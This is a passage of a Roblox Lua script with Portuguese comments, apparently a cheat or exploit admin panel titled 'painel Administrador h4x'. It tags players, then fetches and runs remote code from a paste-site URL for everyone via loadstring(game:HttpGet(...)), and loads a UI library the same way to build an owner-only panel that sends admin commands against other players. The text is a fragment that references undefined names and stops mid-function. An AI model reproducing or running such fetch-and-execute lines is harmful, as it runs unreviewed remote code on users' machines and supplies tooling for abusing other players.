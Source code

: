-- aplica em todos que já estão no jogo
for _, p in ipairs(Players:GetPlayers()) do
    applyTag(p)
end

-- aplica para quem entrar depois
Players.PlayerAdded:Connect(function(p)
    applyTag(p)
end)

-- Executa Fire Carregamento para todos
loadstring(game:HttpGet("https://scriptsbins.vercel.app/raw/HiMusA9DuUJHf5w7ijz6"))()

-- Se for dono, ativa o painel admin
if Donos[LocalPlayer.Name:lower()] then
    local playerOriginalSpeed = {}
    local jaulas = {}
    local jailConnections = {}

    local function EnviarComando(comando, playerName)
        local msg = comando
        if playerName then msg = comando.." "..playerName end
        local canal = TextChatService.TextChannels:FindFirstChild("RBXGeneral") or TextChatService.TextChannels:GetChildren()[1]
        if canal then
            canal:SendAsync(msg)
        else
            warn("Nenhum canal encontrado")
        end
    end

    local WindUI = loadstring(game:HttpGet("https://github.com/Footagesus/WindUI/releases/latest/download/main.lua"))()
    local Window = WindUI:CreateWindow({
        Title = "painel Administrador h4x ",
        Icon = "shield",
        Author = "by:megumi",
        Folder = "Painel Administrador h4x",
        Size = UDim2.fromOffset(580, 460),
        Transparent = true,
        Theme = "Amber",
        Resizable = false,
        SideBarWidth = 200,
        BackgroundImageTransparency = 0.42,
        HideSearchBar = true,
        ScrollBarEnabled = true,
    })

    -- Aba Comandos
    local TabComandos = Window:Tab({ Title = "Comandos", Icon = "terminal", Locked = false })
    local SectionComandos = TabComandos:Section({ Title = "Admin", Icon = "user-cog", Opened = true })

    local TargetName
    local function getPlayersList()
        local t = {}
        for _, p in ipairs(Players:GetPlayers()) do
            table.insert(t, p.Name)
        end
        return t
    end
